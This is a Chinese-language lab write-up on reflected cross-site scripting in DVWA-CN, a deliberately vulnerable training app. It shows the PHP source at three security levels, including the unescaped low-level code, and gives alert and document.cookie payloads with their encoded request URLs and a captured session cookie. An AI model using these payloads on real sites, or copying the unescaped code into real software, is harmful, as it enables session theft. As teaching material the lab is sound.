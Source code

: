 #dvwacn之三反射型xss

dvwacn之反射型xss物理路径

```
root@webserver:/var/www/dvwacn/vulnerabilities/xss_r/source# ls
high.php  low.php  medium.php
```

##安全级别

- low.php

```
<?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {
		
 $html .= '<pre>';
 $html .= 'Hello ' . $_GET['name'];
 $html .= '</pre>';
	
}
```

- medium.php 

```
<?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {

 $html .= '<pre>';
 $html .= 'Hello ' . str_replace('<script>', '', $_GET['name']);
 $html .= '</pre>'; 

}
```


- high.php

``` 
<?php
	
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
	
 $isempty = true;
		
} else {
	
 $html .= '<pre>';
 $html .= 'Hello ' . htmlspecialchars($_GET['name']);
 $html .= '</pre>';
		
}
```

low.php中name参数未经任何处理，直接返回用户提交数据

```
$_GET['name']
```

反射型xss地址

http://192.168.56.80/dvwacn/vulnerabilities/xss_r/


用户输入：

```
<script>alert('xss')</script>
```

页面返回弹窗内容'xss'


##反射型跨站测试

http://192.168.56.80/dvwacn/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(%27%B7%B4%C9%E4%D0%CD%BF%E7%D5%BE%B2%E2%CA%D4%27)%3C/script%3E

页面弹窗

```
反射型跨站测试
```

url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/xss_r/?name=<script>alert('反射型跨站测试')</script>
```


##获取用户cookie

输入

```
<script>alert(document.cookie)</script>
```

页面返回当前用户cookie

```
security=low; PHPSESSID=5538rj2euqbbdrsfsh3lrtnlg2
```

url地址

http://192.168.56.80/dvwacn/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E#

url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>#
```